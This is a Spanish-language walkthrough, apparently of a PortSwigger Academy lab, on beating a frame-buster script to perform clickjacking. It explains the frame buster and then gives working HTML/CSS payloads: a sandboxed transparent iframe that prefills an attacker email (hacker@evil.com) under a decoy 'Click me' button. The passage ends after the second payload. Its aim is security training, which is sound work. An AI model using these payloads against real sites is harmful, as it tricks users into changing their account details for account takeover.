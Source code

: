 # Lab: Clickjacking with a frame buster script

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`

`Note`: The victim will be using Chrome so test your exploit on that browser.  
`Hint`: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/5c74e9ae-8167-4a37-936a-f722cfad0fed)

## 🎯 Objetivo del laboratorio

El objetivo de este laboratorio es realizar un ataque de **Clickjacking** a una aplicación protegida por un **frame buster**. Específicamente, se debe:

- **Engañar al usuario para que cambie su dirección de correo electrónico** a una controlada por el atacante, sin que el usuario lo note.
- **Eludir la protección de frame busting** utilizando técnicas que permitan embeber la página objetivo en un `<iframe>`.
- Crear una **página maliciosa** en el servidor de exploits que simule un botón atractivo (como "Click me") superpuesto al botón real de "Update email" en la página víctima.

💡 El laboratorio se resuelve cuando la dirección de correo electrónico del usuario víctima ha sido cambiada con éxito.

---

Procedemos a autenticarnos con nuestras credenciales `wiener:peter` para inspeccionar la funcionalidad de cambio de correo:
![image](https://github.com/user-attachments/assets/eaefa3dc-9224-418a-a3bc-d6f06520eb40)

Código fuente:
![image](https://github.com/user-attachments/assets/be6cb75e-cd93-4151-8ecd-d849d158ab37)

Observamos el frame buster:
```javascript
if (top != self) {
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}

/*
📌 Explicación detallada:

1. `if (top != self)`:
   - Esta línea verifica si la página actual está siendo cargada **dentro de un frame**.
   - `top` representa el contexto de la ventana principal (el tope del stack de ventanas).
   - `self` representa el contexto del frame actual.
   - Si no son iguales, significa que la página está embebida en un `<iframe>`.

2. `window.addEventListener("DOMContentLoaded", function() { ... })`:
   - Este evento espera a que el contenido HTML de la página se haya cargado completamente, sin esperar imágenes, hojas de estilo, etc.
   - Una vez que se dispara, ejecuta la función definida.

3. `document.body.innerHTML = 'This page cannot be framed';`:
   - Esta línea reemplaza **todo el contenido del body** por un simple texto: `'This page cannot be framed'`.
   - Esto rompe el contenido original, impidiendo al atacante interactuar con los elementos legítimos (como formularios o botones).
*/

```
Objetivo del script:
- Impedir que la página se renderice correctamente si es embebida por un atacante dentro de un iframe.

Cómo lo evitamos:
- Si el `<iframe>` incluye el atributo `sandbox="allow-forms"`, la página embebida **no puede acceder a `top`**, y por lo tanto la condición `top != self` **no puede evaluarse correctamente**.
- Esto neutraliza el frame buster y permite mostrar el contenido sin activar el reemplazo.


Sabemos que se puede prellenar el valor del parámetro `email` tramitándolo por GET:
![image](https://github.com/user-attachments/assets/ea697154-6728-495b-b6a7-3fa0d3a5cad1)


Al igual que en el laboratorio anterior, accedemos al exploit server y procedemos a crean nuestra página maliciosa utilizando nuestro script:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 385px;
        left: 80px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
```

Hacemos click en `Store` y luego en `View exploit`:
![image](https://github.com/user-attachments/assets/f29ed268-3e30-4360-98d6-5de2afa2b9cc)

Lo primero a resaltar es que no se activa el Frame Buster, no se activa el mensaje "This page cannot be framed”.

El paso siguiente sería bajar un poco más el texto `Click me` para hacerlo coincidir con el botón `Update email`:
```javascript
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 440px;
        left: 70px;
        z-index: 1;
        background: #fff;
        padding: 10px;
        font-weight: bold;
        cursor: pointer;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a4a006b0369302b806dd0ee00910067.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
